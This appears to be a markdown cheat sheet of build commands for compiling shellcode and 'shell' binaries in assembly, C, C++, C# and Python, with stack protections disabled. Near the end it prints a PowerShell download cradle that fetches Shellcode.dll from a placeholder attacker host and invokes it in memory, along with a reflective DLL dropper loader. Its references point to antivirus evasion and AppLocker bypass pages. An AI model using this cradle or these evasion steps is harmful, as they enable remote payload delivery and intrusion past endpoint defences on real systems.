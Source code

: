 # Linux

## 1. GAS (GNU assembler)

`$ as --64 shell.s -o shell.o`

`$ ld -m elf_x86_64 shell.o -o shell`

* **Specify architecture**

`$ as --32 shell.s -o shell.o`

`$ ld -m elf_i386 shell.o -o shell`

## 2. YASM

`$ yasm -f elf64 shell.asm -o shell.o`

`$ ld -m elf_x86_64 -o shell shell.o`

With debugging

`$ yasm -g dwarf2 -f elf64 shell.asm -l shell.lst -o shell.o`

`$ ld -g -m elf_x86_64 -o shell shell.o`

## 3. C

* **Compile to binary**

`$ gcc -fno-stack-protector -zexecstack -static -o shell shell.c`

`$ gcc -zexecstack -static -o shell shell.c`

* **Compile to shared object**

`$ gcc -shared -fno-stack-protector -zexecstack -static -o shell.so shell.c`

* **Specify architecture**

`$ gcc -m32 -fno-stack-protector -zexecstack -static -o shell shell.c`

## 4. C++

* **Compile to binary**

`$ g++ -zexestack -static -o shell shell.cpp`

* **Specify architecture

`$ g++ -m32 -zexestack -static -o shell shell.cpp`

## 5. C\#

* **Setup Dotnet SDK**

`$ sudo ./dotnet-install.sh -i /usr/share/dotnet -c 6.0`

* **Completely uninstall specific dotnet version**

```sh
SDK_VERSION="5.0.16"
DOTNET_VERSION="5.0.213"
DOTNET_UNINSTALL_PATH="/usr/share/dotnet"
rm -rf $DOTNET_UNINSTALL_PATH/sdk/$SDK_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/shared/Microsoft.NETCore.App/$DOTNET_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/shared/Microsoft.AspNetCore.All/$DOTNET_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/shared/Microsoft.AspNetCore.App/$DOTNET_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/host/fxr/$DOTNET_VERSION
```

* **Compile Windows executable**

`$ dotnet publish -r <win-x64 | win10-x64> -c Release -p:PublishSingleFile=true -p:PublishTrimmed=true`

`$ dotnet publish -r win-x64 -c Release -p:PublishSingleFile=true -p:AllowUnsafeBlocks=true -p:PublishTrimmed=true`

Or you can just use `build`

`$ dotnet build -r win-x64 -c Release -p:PublishSingleFile=true -p:PublishTrimmed=true`

`$ dotnet build -r win-x64 -c Release -p:PublishSingleFile=true -p:AllowUnsafeBlocks=true -p:PublishTrimmed=true`

* **Compile Windows Dynamic Linked Library**

Create ClassLibrary Project

`$ dotnet new classlib`

Compile C# DLL

`$ dotnet publish -r win-x64 -c Release --sc false -p:PublishTrimmed=true`

Allow unsafe code

`$ dotnet publish -r win-x64 -c Release -p:AllowUnsafeBlocks=true --sc false -p:PublishTrimmed=true`

Execute Shellcode

```
PS C:\> [System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("DLLDropper.dll")
PS C:\> [RunDLLPublicFunc.Class1]::runner()
```

`$ cat download-cradle-dll.ps1`

---

```powershell
$data = (New-Object Net.WebClient).DownloadData("http://<IP>/Shellcode.dll")  
$assem = [System.Reflection.Assembly]::Load($data)  
$class = $assem.GetType("Shellcode.Class1")  
$method = $class.GetMethod("<method_name>")  
$method.Invoke(0, $null)
```

## 6. Python

`$ nuitka --onefile shell.py`

### References

• [https://wiki.archlinux.org/title/.NET](https://wiki.archlinux.org/title/.NET)

• [https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html](https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html)

• [https://pentestlab.blog/2017/06/06/applocker-bypass-assembly-load/](https://pentestlab.blog/2017/06/06/applocker-bypass-assembly-load/)

• [https://nuitka.net/](https://nuitka.net/)